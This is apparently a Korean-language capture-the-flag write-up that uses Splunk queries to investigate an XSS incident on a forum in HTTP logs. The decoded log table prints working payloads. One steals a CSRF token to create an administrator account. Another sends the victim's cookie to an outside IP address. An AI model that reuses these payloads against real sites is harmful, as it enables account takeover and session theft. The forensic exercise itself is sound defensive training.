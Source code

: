 내용이 base64인코딩되어 있습니다. urldecode함수를 통해 디코딩해봅시다.

```
sourcetype=stream:http "<script>"
| dedup form_data
| eval decoded=urldecode(form_data) 
| table _time decoded src_ip
```

|_time|decoded|src_ip|
|---|---|---|
|2017/08/16 15:19:17.163|module=user-titles&action=edit&utid=2"><script>
window.onload=function(e){
  var my_post_key = document.getElementsByName("my_post_key")[0].value
  console.log(my_post_key);
  var postdata= "my_post_key="+my_post_key+"&username=kIagerfield&password=beer_lulz&confirm_password=beer_lulz&email=kIagerfield@froth.ly&usergroup=4&additionalgroups[]=4&displaygroup=4";//Post the Data
  var url = "http://www.brewertalk.com/admin/index.php?module=user-users&action=add";
  var http;
  http = new XMLHttpRequest();
  http.open("Post",url);

  http.setRequestHeader('Accept','text/html');
  http.setRequestHeader('Content-type','application/x-www-form-urlencoded');
  http.setRequestHeader('Accept','application/xhtml+xml');
  http.setRequestHeader('Accept','application/xml');
  http.send(postdata);
  console.log(my_post_key);
}

```
</script>|71.39.18.125|
|2017/08/15 23:36:34.915|action=activate&uid=-1&code="><script>document.location="hxxp://45.77.65.211:9999/microsoftuserfeedbackservice?metric=" + document.cookie;</script>|71.39.18.125|
|2017/08/12 09:49:00.520|action=activate&uid=-1&code="><script>('대동')</script>|136.0.0.125|
```

쿼리 결과 중 '대동'이라는 글자를 발견할 수 있습니다.

답 : 대동

207	What was the value of the cookie that Kevin's browser transmitted to the malicious URL as part of a XSS attack? Answer guidance: All digits. Not the cookie name or symbols like an equal sign.  
XSS 공격의 일환으로 Kevin의 브라우저가 악성 URL에 전송한 쿠키의 가치는 무엇이었습니까? 답변 안내: 모두 숫자입니다. 쿠키 이름이나 등호와 같은 기호가 아닙니다.

<details><summary>hint#1</summary></details>

<details><summary>hint#2</summary></details>

kevin의 브라우저에서 XSS공격으로 인한 쿠키값이 탈취되었습니다. 키워드 kevin, "<\script>", cookie를 넣어 검색해 봅시다.

```
sourcetype=stream:http *kevin* "<script>" *cookie*
```

1개의 검색결과가 나왔습니다.

